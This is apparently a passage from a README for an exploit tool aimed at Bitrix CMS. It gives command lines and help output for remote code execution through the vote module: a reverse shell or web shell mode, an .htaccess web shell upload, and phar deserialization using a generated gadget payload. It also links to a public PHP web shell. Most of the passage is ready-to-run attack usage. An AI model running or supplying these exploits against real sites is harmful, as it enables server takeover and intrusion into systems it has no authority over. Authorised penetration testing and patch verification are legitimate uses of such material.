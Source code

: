 Display help for mode
```sh
python3 test_bitrix.py rce_vote -h
```

```console
usage: python3 test_bitrix.py rce_vote [-h] [--id_agent ID_AGENT] [--lhost LHOST] [--lport LPORT] [--web-shell webshell] [--path path]

options:
  -h, --help            show this help message and exit
  --id_agent ID_AGENT   ID of vote module agent (2, 4 and 7 available)
  --lhost LHOST         IP address for reverse connection
  --lport LPORT         Port of the host that listens for reverse connection
  --web-shell webshell  Use web shell instead of console reverse shell
  --path path           Path where in the site to upload a random file (example: /upload/iblock/1d3/)

```


### Running RCE vote using .htaccess

Prepare webshell page for a payload. The payload must not be .php. The webshell may be taken from [here](https://raw.githubusercontent.com/artyuum/simple-php-web-shell/master/index.php) just save it as html
```sh
python3 test_bitrix.py -t https://example.com vote_htaccess -p shell.html
```
Display help for mode
```sh
python3 test_bitrix.py vote_htaccess -h
```

```console
usage: python3 test_bitrix.py vote_htaccess [-h] -p payload

options:
  -h, --help            show this help message and exit
  -p payload, --payload payload
                        Path to payload file
```

### Running RCE vote phar deserialization

Generate phar payload file with php script
```sh
php -d phar.readonly=0 gadgets.php rce1 system '<os command here>' payload.phar
```
Use it as payload here
```sh
python3 test_bitrix.py -t https://example.com vote_phar -p payload.phar
```

Display help for mode
```sh
python3 test_bitrix.py vote_phar -h
```
